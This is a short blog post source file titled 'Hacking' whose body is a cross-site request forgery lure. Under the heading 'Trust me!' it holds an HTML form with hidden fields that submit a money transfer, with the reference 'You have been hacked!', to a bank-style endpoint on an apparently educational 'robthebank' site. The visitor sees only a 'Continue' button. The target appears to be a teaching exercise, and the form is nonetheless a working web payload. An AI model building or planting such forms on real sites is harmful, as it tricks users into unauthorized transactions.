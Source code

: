 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
</div>
<input class="btn btn-primary" type="submit" value="Continue">
</form>



****
